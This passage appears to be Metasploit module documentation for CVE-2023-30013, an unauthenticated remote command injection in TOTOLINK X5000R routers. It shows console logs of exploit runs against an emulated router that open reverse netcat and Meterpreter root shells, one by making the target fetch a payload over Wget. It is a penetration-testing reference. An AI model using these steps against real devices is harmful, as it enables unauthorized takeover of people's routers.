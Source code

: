```
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.71 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 12 opened (192.168.0.2:4444 -> 192.168.0.1:34888) at 2023-09-13 21:34:35 +0000

uname -a
Linux 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
whoami
root
pwd
/www/cgi-bin
```
### FirmAE X5000R Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > set target 1
target => 1
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf6 exploit(linux/http/totolink_x5000r_unauth_rce_cve_2023_30013) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 6 seconds.
[*] Elapsed time: 6.67 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:1981/LLNMKYkmtrkWEFo
[*] Client 192.168.0.1 (Wget) requested /LLNMKYkmtrkWEFo
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 13 opened (192.168.0.2:4444 -> 192.168.0.1:34890) at 2023-09-13 21:36:52 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Staged `mipsle` payloads will core dump on the target, so use stage-less `mipsle` payloads when using the Linux Dropper target.
